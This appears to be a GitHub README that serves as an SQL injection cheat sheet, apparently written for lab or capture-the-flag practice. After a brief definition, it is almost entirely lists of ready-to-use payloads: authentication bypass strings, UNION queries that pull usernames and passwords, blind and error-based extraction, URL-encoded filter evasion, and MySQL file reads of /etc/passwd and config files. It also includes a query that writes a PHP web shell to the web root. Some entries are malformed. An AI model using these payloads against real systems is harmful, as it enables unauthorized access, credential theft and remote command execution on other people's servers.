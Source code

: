 

## What is SQL Injection ? 

- **SQL Injection is a web vulnerability where an attacker ==injects malicious SQL code into an application’s database query via user input== (e.g., a URL parameter, form field, or cookie).**

- *If the app doesn’t sanitize inputs, the injected code can manipulate the query to extract data, bypass authentication, or even execute commands.


## SQL Injection Cheat sheet : 

https://portswigger.net/web-security/sql-injection/cheat-sheet

## List of payloads of SQLi : 


1. **Classic SQLi Payloads** : 

	- `1 OR 1=1`
	- `1 OR '1'='1`
	- `1' OR '1'='1`
	- `1" OR "1"="1`
	- `1 --`
	- `1 #`
	- `1/*`
	- `1' --`
	- `1' #`
	- `1'/*`
	
2. **Authentication Bypass Payloads : ** 

	- `admin' OR 1=1 --`
	- `admin' OR '1'='1' --`
	- `admin' OR 1=1#`
	- `admin' OR '1'='1'#`
	- `admin' OR 1=1/*`
	- `jeremy' OR 1=1#`
	- `jeremy' OR '1'='1' --`
	- `' OR ''='`
	- `' OR '1'='1`
	- `admin" OR "1"="1 --`
	- `") OR ("1"="1`
	- `') OR ('1'='1`

3. **UNION-Based Payloads : **

	- `1 UNION SELECT 1,2`
	- `1 UNION SELECT 1,2,3`
	- `1 UNION SELECT 1,@@version,3`
	- `1 UNION SELECT 1,database(),3`
	- `1 UNION SELECT 1,schema_name,3 FROM information_schema.schemata`
	- `1 UNION SELECT 1,table_name,3 FROM information_schema.tables`
	- `1 UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema='lab_db'`
	- `1 UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'`
	- `1 UNION SELECT 1,username,password FROM users`
	- `1 UNION SELECT 1,flag,3 FROM flags`
	- `1 UNION SELECT 1,secret,3 FROM secrets`
	- `1 UNION SELECT 1,concat(username,':',password),3 FROM users`
	- `1 UNION SELECT 1,2,3 (for invalid IDs)`
	- `1 UNION ALL SELECT 1,2,3`

4. **Blind Boolean-Based Payloads : **

	- `1 AND 1=1`
	- `1 AND 1=2`
	- `1 AND (SELECT 1 FROM users WHERE username='admin')=1`
	- `1 AND (SELECT 1 FROM users WHERE username='jeremy')=1`
	- `1 AND (SELECT count(*) FROM users)>0`
	- `1 AND (SELECT length(database()))=7`
	- `1 AND ascii(substring((SELECT database()),1,1))=108 (extracts l from lab_db)`

5. **File Operation Payloads (MySQL) : **

	- `1 UNION SELECT 1,LOAD_FILE('/etc/passwd'),3`
	- `1 UNION SELECT 1,LOAD_FILE('/var/www/html/config.php'),3`
	- `1 UNION SELECT 1,LOAD_FILE('/var/www/html/flag.txt'),3`
	- `1 UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php'`
	- `1 UNION SELECT 1,@@secure_file_priv,3 (check file access restrictions)`

6. **Encoded Payloads (Bypass Filters) : **

	- `1%27%20OR%20%271%27=%271 (' OR '1'='1)`
	- `%27%20OR%201=1%23 (' OR 1=1#)`
	- `1%20UNION%20SELECT%201%2C@@version%2C3`
		-  `1%20AND%20IF%28ascii%28substring%28%28SELECT%20database%28%29%29%2C1%2C1%29%29=108%2CSLEEP%285%29%2C0%29`

7. **Miscellaneous Payloads : **

	- `1 ORDER BY 1 (test column count)`
	- `1 ORDER BY 2`
	- `1 ORDER BY 3`
	- `1 UNION SELECT 1,v` ersion (), 3
	- `1 AND (SELECT 1)=1`
	- `1' AND '1'='1`
	- `1" AND "1"="1`
	- `1 OR true`
	- `1 AND false`

8. **Error-Based Payloads (MySQL) : **

	- `1 AND extractvalue(1,concat(0x7e,(SELECT @@version)))`
	- `1 AND (SELECT 1 FROM (SELECT count(*),concat((SELEC database()),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) ) )a)`
	- `1' AND extractvalue(1,concat(0x7e,(SELECT username FROM users LIMIT 0,1)))#`